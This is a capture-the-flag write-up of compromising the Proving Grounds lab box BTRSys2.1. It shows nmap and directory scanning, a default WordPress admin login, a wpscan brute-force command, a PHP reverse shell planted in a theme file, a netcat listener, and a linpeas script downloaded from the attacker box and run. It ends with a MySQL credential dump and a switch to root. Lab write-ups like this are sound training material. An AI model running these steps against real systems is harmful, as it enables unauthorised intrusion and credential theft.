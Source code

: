 ```yaml
---
title: "[Practice] Proving Grounds: BTRSys2.1"
---
```


This is a write up for the box BTRSys2.1 on proving grounds. It's a part of the get to work series and is a free to play box that is Linux based.

## Enumeration
---
Starting off by kicking off autorecon to enumerate the services running off the box.

If you do not use autorecon I have left the basic nmap scripts that are essentially being executed.

``` bash
nmap -vv --reason -Pn -A --osscan-guess --version-all -p- $ip
```
```nmap results
Nmap scan report for 192.168.162.50
Host is up, received user-set (0.021s latency).
Scanned at 2021-10-11 17:55:47 EDT for 54s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.162
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 08:ee:e3:ff:31:20:87:6c:12:e7:1c:aa:c4:e7:54:f2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKrYYWK3Xv2EBb0KryPAargHdeVdVuGj+AHTUbH1CyLIuQ3zbtaq2+lr5K/aMqiJ5othz27+RWSJ2NmQ2JeOUBCogFLikCwU6MRDQLHpV+neS3fAKrH5fNnXo+RfnMWBLQaaXBPiUOQaoQc27hRN3SJ1hbVLEF65TY0siTrOj0Lt8SRztwkbfynHEKxMsQi5WWDLTgS7bivCf9VVWwqgmuBbsJAqFExDjLxlxJpH4+93bgEtD9EPV/KKO9B3Inaz8PxC+zXZofhZXloysYoGg4IZzT55JzrRVRuv/cbGcMuGTBpCCkdH01G4NCSgL7YwX13C1Qc+EFX1QExV6k1ePD
|   256 ad:e1:1c:7d:e7:86:76:be:9a:a8:bd:b9:68:92:77:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFTsqff4O0hsl+RUR2lXFcbCEkvFcspHALA2RR2DpoD2AlRN/DEpIbW3NETNXxxyKHTtGhUiBSUuw8S9RSBAsnY=
|   256 0c:e1:eb:06:0c:5c:b5:cc:1b:d1:fa:56:06:22:31:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH91w++CdkbeAkmXYietVhD/73nEaXR/nbeBEyuwLwgq
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: Linux 3.11 - 4.1 (95%), Linux 4.4 (95%), Linux 3.16 (94%), Linux 3.13 (92%), Linux 3.10 - 3.16 (92%), Linux 3.10 - 3.12 (91%), Linux 2.6.32 (91%), Linux 3.2 - 3.8 (91%), Linux 3.8 (91%), WatchGuard Fireware 11.8 (91%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/11%OT=21%CT=1%CU=43495%PV=Y%DS=2%DC=T%G=Y%TM=6164B3
OS:19%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10A%TI=Z%II=I%TS=8)SEQ(SP=
OS:102%GCD=1%ISR=10A%TI=Z%TS=8)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT
OS:11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=7120%W2=7120%W3=7
OS:120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M506NNSNW7%CC=Y%Q
OS:=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=1
OS:64%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

Nmap Summary:
- Port 21 FTP
- Port 22 SSH
- Port 80 HTTP

After noticing we have port 80 open I immediately go to the page and we find nothing interesting in the page source. It's basically just a gif. 

(Autorecon already did some directory busting btw saving me time see command below)

```
feroxbuster -u http://192.168.162.50:80 -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp" -v -k
```

I review the feroxbuster report and notice that we have the findings below:

```
Relevant Findings
403       11l       32w      302c http://192.168.162.50/server-status
301        9l       28w      317c http://192.168.162.50/upload
301        9l       28w      320c http://192.168.162.50/wordpress
```

We now know the server is running wordpress so we can begin to browse this page for a potential login page. I am going to start wpscan on it since it can help quickly enumerate version numbers and any plugins that might be on vulnerable.

Nothing crazy came up from the wpscan findings so I go ahead and see that there is a wp-login page though present on the site.

I tried some quick default credentials and was able to get in on the first try with: admin:admin

Lucky guess usually its the first one I try. If you didnt try this we would be able to use wpscan to bruteforce our way in!

We know admin is a valid user to btw since there was some information disclosure when trying to Login.

```bash
wpscan --url <ip> --usernames admin --passwords /usr/share/wordlists/rockyou.txt
```


## Exploitation
---
Now that we are actually in the wordpress admin portal we can play around with some of the settings. I noticed that there aren't any crazy unusual plugins that we can modify and wpscan didn't really give us that much helpful information either.

I do know however that the server is running apache which is able to execute php code.

We have the ability to edit the themes (Appearance > Theme Editor) php files so we can easily replace the code with malicious php that can be used as a reverse shell.

I will be using the pentest monkey reverse shell which can be found here > https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Just download the file edit variables $ip and $port to the IP of your attack box and the port you want to listen for a connection on.

Now after we replaced the 404.php file like shown in the screenshot we will be starting a nc listener on port 1234

```
nc -nvlp 1234
```

To execute the shell we have to browse to the themes directory where 404.php is stored. If you do not know where the 404.php page would be located we can github the template being used then find it there.

Typically its in this directory: /wp-content/themes/twentyfourteen/404.php for future reference


## Privilege Escalation
---

Once we are in we have a dumb shell without a proper tty

We can use python to update it

First I checked to see which version we have

Confirmed we have python3 installed

Fixed our tty issue using:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Going to automate a lot of the manual commands such as looking at /etc/passwd, /etc/crontab and looking for passwords as well as SUID SGUID with linpeas

going over to the /tmp folder

hosting a webserver on my kali box in the directory im hosting linpeas using updog

updog -p 80

Now I will download the file to the machine using wget

```
wget $ip/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh
```
Reading the linpeas.sh output here are a lot of the things I am looking for:
Kernel Exploit? No
Capability? No
SGID/SUID? No
Credentials? Yes

We found the following credentials in the mkasdklnasd file we can use it to connect to a mysql db

Commands Used:

```
mysql -u root -p rootpassword!

showdatabases;

use wordpress;

show tables;

select * from wp_users;
```

After viewing the wp_users table we notice that we get hashses for root and admin.

I used crackstation to crack them and got the following results:

root:roottoor
admin:admin

Example:


Now that we have the root password all we have to do is switch to the root user.

```
www-data@ubuntu:/home/btrisk$ su root                                                                                                                                              
su root                                                                                                                                                                            
Password: roottoor                                                                                                                                                                 
                                                                                                                       
```                                                                                                                                                                              

We have now succesfully rooted this box!
